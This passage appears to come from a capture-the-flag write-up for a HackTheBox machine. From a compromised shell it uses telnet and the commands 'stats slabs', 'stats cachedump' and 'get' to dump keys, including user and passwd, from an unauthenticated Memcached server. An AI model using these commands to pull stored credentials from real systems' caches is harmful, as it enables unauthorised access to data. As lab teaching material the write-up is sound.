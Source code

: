 Using this [**article**](https://www.hackingarticles.in/penetration-testing-on-memcached-server/) we can dump data from Memcached service.

First, we'll connect to service using telnet and start by checking the `version` of Memcached server:

```shell
ash@cache:~$ telnet localhost 11211
telnet localhost 11211
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
version
version
VERSION 1.5.6 Ubuntu
```
Next, we'll use `stat slabs` which will provide us info if there are any active slabs, in this case we have 1:

> A slab allocation is used to optimize memory usage and prevent memory fragmentation when information expires from the cache

```shell
stats slabs
STAT 1:chunk_size 96
STAT 1:chunks_per_page 10922
STAT 1:total_pages 1
STAT 1:total_chunks 10922
STAT 1:used_chunks 5
STAT 1:free_chunks 10917
STAT 1:free_chunks_end 0
STAT 1:mem_requested 371
STAT 1:get_hits 0
STAT 1:cmd_set 8355
STAT 1:delete_hits 0
STAT 1:incr_hits 0
STAT 1:decr_hits 0
STAT 1:cas_hits 0
STAT 1:cas_badval 0
STAT 1:touch_hits 0
STAT active_slabs 1
STAT total_malloced 1048576
END
```
Next, we'll use `stat cachedump 1 0` to dump keys,  where `1` is the slab number and `0` denotes to dump all keys.

```shell
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```
Then, using `get` command followed by key name to get the data inside key:
```shell
get link
VALUE link 0 21
https://hackthebox.eu
END

get user
VALUE user 0 5
luffy
```